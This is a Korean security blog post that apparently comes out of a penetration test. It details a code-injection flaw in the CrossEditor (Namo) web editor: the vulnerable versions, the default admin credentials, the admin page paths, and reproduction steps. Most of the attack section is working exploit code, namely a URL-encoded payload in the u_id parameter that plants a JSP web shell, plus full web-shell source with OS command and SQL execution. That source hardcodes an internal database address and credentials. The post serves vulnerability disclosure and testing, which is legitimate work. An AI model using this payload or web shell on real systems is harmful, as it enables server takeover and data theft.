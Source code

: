 ```yaml
---
layout: post
title:  "크로스 에디터 (code injection)"
tags: Injection CVE
---
```


# 크로스 에디터 (code injection)

### 취약점 개요 및 영향 버전

고객사 모의침투 프로젝트 진행 중 사이트에서 사용중인 상용 솔루션 크로스에디터가 취약 버전으로 확인 되었고 해당하는 사이트에서 파일 다운로드 취약점을 찾아 취약 소스코드를 분석하게 되었습니다. `PoC가 공개되지 않아서 다른 모의해킹 및 취약점 점검 프로젝트에서 발견되지 못하고 잠재적으로 노후된 솔루션 버전을 사용`하고 있을 가능성이 높다고 생각했고 발견 이후 프로젝트 진행 시 기 취약점으로 쉽게 웹쉘을 업로드할 수 있는 경우가 많았습니다.

![/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-1__.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-1__.png)

### 취약 소스코드

- 크로스 에디터 특성 상 사용중인 웹 시스템에 그대로 소스코드를 integration해야 하므로 별도로 DB를 구축할 수 없어 관리자 **계정 정보를 소스코드로 하드코딩해서 보관**하게 됩니다.
- 패스워드 변경 시 패스워드는 암호화가 되어서 보관되지만 id 파라미터의 경우 전달받아 그대로 평문으로 저장됩니다.
- 위의 특성을 통해 패스워드 변경을 처리하는 페이지에 운영체제 명령어를 실행하는 소스코드 인젝션 시 비밀번호 변경 처리 페이지가 웹쉘로 탈바꿈되어 침투가 가능합니다.

![/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-2_1_.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-2_1_.png)

### 취약점 전제조건

1. 취약한 버전을 사용해야 합니다.
- 3.5.1.38 이하 버전
- 4.3.2.29 이하 버전
1. 관리자 계정이 취약해야 합니다.
- 디폴트 계정 ID : admin / PW : 1234
- 기본적으로 임계값은 설정되어 있지 않기 때문에 알려진 패스워드로 사전 대입 공격도 고려할 수 있습니다.

### 취약점 확인 방법

글쓰기 등으로 에디터 플러그인에 접근이 가능하다면 `Ctrl+Shift+A` 를 이용해서 버전 확인이 가능합니다.

![1-1 크로스 에디터 버전 확인.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-1_%ED%81%AC%EB%A1%9C%EC%8A%A4_%EC%97%90%EB%94%94%ED%84%B0_%EB%B2%84%EC%A0%84_%ED%99%95%EC%9D%B8.png)

일반적으로 사용되는 경로나 plugin javascript 등을 통해서 크로스 에디터 관리자 페이지 경로로 접근할 수 있습니다.

<aside>
💡 취약점 발견 당시 확인 되었던 관리자 페이지 경로
/namoEditor/plugin/crossEditor/manage/index.html
/namo2/manage/index.html

</aside>

![Untitled](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/Untitled.png)

간혹 관리자 페이지를 삭제해서 메인 페이지에 접근하지 못하도록 조치 한 경우도 존재합니다.

![1-3 관리자 페이지 막힘.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-3_%EA%B4%80%EB%A6%AC%EC%9E%90_%ED%8E%98%EC%9D%B4%EC%A7%80_%EB%A7%89%ED%9E%98.png)

로그인을 처리하는 페이지로 직접 접근해서 세션을 획득하면 됩니다.

<aside>
💡 /namo2/manage/jsp/login_proc.jsp

</aside>

![1-4 URL로 직접 접근.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-4_URL%EB%A1%9C_%EC%A7%81%EC%A0%91_%EC%A0%91%EA%B7%BC.png)

획득한 세션으로 취약 모듈인 패스워드 변경 페이지로 직접 접근합니다.

<aside>
💡 /namo2/manage/jsp/account_setting.jsp

</aside>

![1-5 패스워드 변경 페이지 직접 접근.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-5_%ED%8C%A8%EC%8A%A4%EC%9B%8C%EB%93%9C_%EB%B3%80%EA%B2%BD_%ED%8E%98%EC%9D%B4%EC%A7%80_%EC%A7%81%EC%A0%91_%EC%A0%91%EA%B7%BC.png)

### 취약점 재현

Step 1) 비밀번호 변경 시 u_id 파라미터에  코드 인젝션을 진행하면 됩니다. 코드 인젝션으로 소스코드가 변경되기 때문에 주의사항이 필요합니다.

- 코드 인젝션 시 컴파일 에러가 발생하지 않도록 올바른 코드를 입력해야합니다.
(테스트 환경을 구축해서 테스트해보고 공격 페이로드를 입력하는게 안전합니다.)
- ID/PW 변수가 손상되면 관리자 로그인이 불가능해질 수 있습니다.
    
    ![1-7.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-7.png)
    

Step 2) manageInfo.jsp로 접근해서 운영체제 명령어를 실행합니다.

![Untitled](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/Untitled%201.png)

Step 3) manageInfo.jsp의 공격 전후입니다.
![1-6 변경 전후.png](/assets/images/%E1%84%8F%E1%85%B3%E1%84%85%E1%85%A9%E1%84%89%E1%85%B3%20%E1%84%8B%E1%85%A6%E1%84%83%E1%85%B5%E1%84%90%E1%85%A5%20(code%20injection)%20b619f8cee01f405e9d5fd967b305365a/1-6_%EB%B3%80%EA%B2%BD_%EC%A0%84%ED%9B%84.png)

### 공격 페이로드

```jsx
admin";%0a%25>%0a<%25@+page+language="java"+contentType="text/html;+charset=UTF-8"+pageEncoding="UTF-8"%25>%0a<%25@+page+import="java.util.*,java.io.*"%25>%0a<meta+charset="UTF-8">%0a<form+method=GET+Action='manageInfo.jsp'>%0a<input+name='cmd'+type=text+style="width:500px;height:50px;">%0a<input+type=submit+value='Run'>%0a</Form>%0a<textarea+style="width:700px;height:500px">%0a<%25%0a%09String+cmd+=+request.getParameter("cmd");%0a%09String+output+=+"";%0a%09if(cmd+!=+null)+{%0a%09%09String+s+=null;%0a%09%09try+{%0a%09%09%09Process+p+=+Runtime.getRuntime().exec("cmd.exe+/C+"%2bcmd);%0a%09%09%09BufferedReader+sI+=+new+BufferedReader(new+InputStreamReader(p.getInputStream()));%0a%09%09%09while((s+=+sI.readLine())+!=+null)+{%0a%09%09%09%09out.println(s);%0a%09%09%09}%0a%09%09}%0a%09%09catch(IOException+e)+{%0a%09%09%09e.printStackTrace();%0a%09%09}%0a%09}%0a%25>%0a</textarea>%0a<%25%0a%09String+a+="1
```

공격 코드 원본

```java
admin";
%>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="java.lang.*"%>
<%@ page import="java.sql.*"%>
<%@ page import="java.util.*"%>
<%@ page import="java.io.*"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<meta charset="UTF-8">
<h1> Coommand Execute </h1>
<form method=POST Action='manageInfo.jsp'>
 <input name='cmd' type=text style="width:500px;height:50px;">
 <input type=submit value='Run'>
</Form>
<br>
<textarea style="width:700px;height:500px">
<%
 String cmd = request.getParameter("cmd");
 String output = "";
 if(cmd != null) {
  String s =null;
  try {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((s = sI.readLine()) != null) {
      out.println(s);
    }
  }
  catch(IOException e) {
    e.printStackTrace();
  }
 }
 %>
</textarea>
<br><br><br>
<h1> SQL Execute </h1>
<form method="GET" action="">
 <input name="query" type="text" style="width:500px; height:50px;">
 <input type="submit" value="RUN">
</form>
<br><br>
<%
 String sql = request.getParameter("query");
 if(sql != null) {
   try {
     String url = "jdbc:oracle:thin:@172.25.251.124:1721:HABISPDB";
     String user = "MATIE";
     String pass = "MATIE_20";

     Class.forName("oracle.jdbc.driver.OracleDriver");
     Connection conn = DriverManager.getConnection(url, user, pass);
     Statement stmt = conn.createStatement();
     ResultSet rs= stmt.executeQuery(sql);
     ResultSetMetaData rsmd = rs.getMetaData();
     int count = rsmd.getColumnCount();
     out.println("<br><br>");
     out.println("<table border=\"1\" cellspacing=\"0\" cellpadding=\"0\" style=\"width:500px; border: 1px solid #444444; text-align:center;\">");
     out.println("<tr>");
     for(int i=1; i<=count; i++){
       out.println("<th>"+rsmd.getColumnLabel(i)+"</th>");
     }
     out.println("</tr>");
     while(rs.next()){
       out.println("<tr>");

       for(int i=1; i<=count; i++)
       {

         switch(rsmd.getColumnType(i))
         {
           case Types.NUMERIC :
           case Types.INTEGER :
             out.println("<td>"+rs.getInt(i)+"</td>"); break;
           case Types.FLOAT :
             out.println("<td>"+rs.getFloat(i)+"</td>"); break;
           case Types.DOUBLE :
             out.println("<td>"+rs.getDouble(i)+"</td>"); break;
           case Types.DATE :
             out.println("<td>"+rs.getDate(i)+"</td>"); break;
           case Types.CHAR :
           default :
             out.println("<td>"+rs.getString(i)+"</td>");
         }
       }
       out.println("</tr>");

     }
     out.println("</table>");
     conn.close();
   }
   catch(Exception e)
   {
      out.println("<br><br>");
      out.println("not query or sql error");
   }
 }

%>
<% String a="123
```

### 실습환경

```bash
docker pull rbdhks9826/crs
```